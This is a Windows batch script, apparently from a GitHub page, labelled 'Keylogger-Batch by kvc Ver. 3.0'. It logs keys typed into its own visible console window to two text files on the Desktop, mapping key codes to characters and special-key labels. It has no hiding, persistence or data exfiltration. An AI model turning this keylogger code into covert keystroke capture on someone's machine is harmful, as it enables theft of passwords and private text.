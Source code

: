 
@echo off
cls
CD Files
mode 85,25

REM As in ver. 1.0 ,we used 'choice.exe or choice.com' for logging Pressed keys on Keyboard ...
rem and we've used 'mChoice.exe' (written in C) for ver.2.0
REM same reason for using 'fn.dll' file in this version...i.e. to fulfill our requirment !!

title Keylogger-Batch by kvc Ver. 3.0
setlocal enabledelayedexpansion
REm Checking if our fn.dll file is present or not ...
REM if not exist "fn.dll" (echo. The fn.dll file is not found ...&echo.Please make sure that Both Files are in the Same Folder as you Downloaded them !! && goto end)
set var=
if exist "%userprofile%\desktop\keylogger_original.txt" del /q "%userprofile%\desktop\keylogger_original.txt" >nul 2>&1
if exist "%userprofile%\desktop\keylogger_Modified.txt" del /q "%userprofile%\desktop\keylogger_Modified.txt" >nul 2>&1
:a
cls
if exist "%userprofile%\desktop\keylogger_Modified.txt" (set /p var1=<"%userprofile%\desktop\keylogger_Modified.txt") ELSE set var1=
set result=
echo. !var!
echo. !var1!
echo.
echo.				Keylogger by Kvc
echo.&echo.Check the log file of All possible pressed Keys in "Desktop\keylogger_original.txt"
echo.&echo.Check the log file of intentional pressed Keys in "Desktop\keylogger_Modified.txt"
echo.
fn.dll kbd
call :chk_keyPressed "%errorlevel%" Result
set var=!var!!result!
echo.!var!>"%userprofile%\desktop\keylogger_original.txt"
call :manuplate_it "%result%"
goto a

:manuplate_it
if exist "%userprofile%\desktop\keylogger_Modified.txt" (set /p var1=<"%userprofile%\desktop\keylogger_Modified.txt") ELSE set var1=
if /i "%~1" == "{BS}" (
call :getlen "!var1!" size
if "!size!" leq "1" (Del /q "%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
ECHO.%var1:~0,-1%>"%userprofile%\desktop\keylogger_Modified.txt"
goto :eof
)
if /i "%~1" == "{TAB}" (ECHO.%var1%	>"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
if /i "%~1" == "{Enter}" (ECHO.>>"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
if /i "%~1" == "{Space}" (ECHO.%var1% >"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
set "temp=%~1"
if /i "!temp:~0,1!" == "{" (goto :eof)
set var1=!var1!%temp%
echo.%var1%>"%userprofile%\desktop\keylogger_Modified.txt"
goto :eof

:chk_keyPressed
REM Checking if any Special key is Pressed or Not ...
if /i "%~1" == "0" set "%~2={NULL}"
if /i "%~1" == "1" set "%~2={Alt+1}"
if /i "%~1" == "2" set "%~2={Alt+2}"
if /i "%~1" == "3" set "%~2={Alt+3}"
if /i "%~1" == "4" set "%~2={Alt+4}"
if /i "%~1" == "5" set "%~2={Alt+5}"
if /i "%~1" == "6" set "%~2={Alt+6}"
if /i "%~1" == "7" set "%~2={Alt+7}"
if /i "%~1" == "8" set "%~2={BS}"
if /i "%~1" == "9" set "%~2={TAB}"
if /i "%~1" == "10" set "%~2={Enter}"
if /i "%~1" == "11" set "%~2={VerticalTab}"
if /i "%~1" == "12" set "%~2={FormFeed}"
if /i "%~1" == "13" set "%~2={Enter}"
if /i "%~1" == "14" set "%~2={ShiftIn [alt+14]}"
if /i "%~1" == "15" set "%~2={Shiftout [alt+15]}"
if /i "%~1" == "16" set "%~2={DataLinkEscape [alt+16]}"
if /i "%~1" == "17" set "%~2={DeviceControl1 [alt+17]}"
if /i "%~1" == "18" set "%~2={DeviceControl2 [alt+18]}"
if /i "%~1" == "19" set "%~2={DeviceControl3 [alt+19]}"
if /i "%~1" == "20" set "%~2={DeviceControl4} [alt+20]"
if /i "%~1" == "21" set "%~2={Negative_acknowledgement [alt+21]}"
if /i "%~1" == "22" set "%~2={Alt+22}"
if /i "%~1" == "23" set "%~2={Alt+23}"
if /i "%~1" == "24" set "%~2={Cancel [alt+24]}"
if /i "%~1" == "25" set "%~2={Alt+25}"
if /i "%~1" == "26" set "%~2={Alt+26}"
if /i "%~1" == "27" set "%~2={Escape}"
if /i "%~1" == "28" set "%~2={Alt+28}"
if /i "%~1" == "29" set "%~2={Alt+29}"
if /i "%~1" == "30" set "%~2={Alt+30}"
if /i "%~1" == "31" set "%~2={Alt+31}"
if /i "%~1" == "32" set "%~2={Space}"
if /i "%~1" == "33" set "%~2=^!"
if /i "%~1" == "34" set "%~2=""
if /i "%~1" == "35" set "%~2=#"
if /i "%~1" == "36" set "%~2=$"
if /i "%~1" == "37" set "%~2=^%"
if /i "%~1" == "38" set "%~2=^&"
if /i "%~1" == "39" set "%~2='"
if /i "%~1" == "40" set "%~2=^("
if /i "%~1" == "41" set "%~2=^)"
if /i "%~1" == "42" set "%~2=*"
if /i "%~1" == "43" set "%~2=+"
if /i "%~1" == "44" set "%~2=,"
if /i "%~1" == "45" set "%~2=-"
if /i "%~1" == "46" set "%~2=."
if /i "%~1" == "47" set "%~2=/"
for /l %%a in (0,1,9) do ((set /a z=%%a+48) && if /i "%~1" == "!z!" set "%~2=%%a")
if /i "%~1" == "58" set "%~2=:"
if /i "%~1" == "59" set "%~2=;"
if /i "%~1" == "60" set "%~2=^<"
if /i "%~1" == "61" set "%~2=="
if /i "%~1" == "62" set "%~2=^>"
if /i "%~1" == "63" set "%~2=?"
if /i "%~1" == "64" set "%~2=@"
SET COUNT=64
FOR %%A IN (A B C D E F G H I J K L M N O P Q R S T U V W X Y Z) DO ((SET /A COUNT=!COUNT!+1)&&(IF /I "%~1" == "!COUNT!" SET "%~2=%%A"))
if /i "%~1" == "91" set "%~2=["
if /i "%~1" == "92" set "%~2=\"
if /i "%~1" == "93" set "%~2=]"
if /i "%~1" == "94" set "%~2=^"
if /i "%~1" == "95" set "%~2=_"
if /i "%~1" == "96" set "%~2=`"
SET COUNT=96
FOR %%A IN (a b c d e f g h i j k l m n o p q r s t u v w x y z) DO ((SET /A COUNT=!COUNT!+1)&&(IF /I "%~1" == "!COUNT!" SET "%~2=%%A"))
if /i "%~1" == "123" set "%~2={"
if /i "%~1" == "124" set "%~2=|"
if /i "%~1" == "125" set "%~2=}"
if /i "%~1" == "126" set "%~2=~"
if /i "%~1" == "127" set "%~2={DEL}"
for /l %%a in (128,1,254) do (if /i "%~1" == "%%a" set "%~2={Alt+%%a}")
if /i "%~1" == "327" set "%~2={UP}"
if /i "%~1" == "335" set "%~2={Down}"
if /i "%~1" == "330" set "%~2={left}"
if /i "%~1" == "332" set "%~2={right}"
if /i "%~1" == "314" set "%~2={F1}"
if /i "%~1" == "315" set "%~2={F2}"
if /i "%~1" == "316" set "%~2={F3}"
if /i "%~1" == "317" set "%~2={F4}"
if /i "%~1" == "318" set "%~2={F5}"
if /i "%~1" == "319" set "%~2={F6}"
if /i "%~1" == "320" set "%~2={F7}"
if /i "%~1" == "321" set "%~2={F8}"
if /i "%~1" == "322" set "%~2={F9}"
if /i "%~1" == "323" set "%~2={F10}"
if /i "%~1" == "388" set "%~2={F11}"
if /i "%~1" == "389" set "%~2={F12}"
if /i "%~1" == "337" set "%~2={Insert}"
if /i "%~1" == "338" set "%~2={DEL}"
goto :eof

:getlen
set "all=%~1"
set all=%all:(=.%
set all=%all:)=.%
set len=0
goto loop
:loop
if "%all%" neq "" (
set all=%all:~1%
set /a len=%len%+1
goto loop
)
set %2=%len%
goto :eof

:end
pause
exit /b 
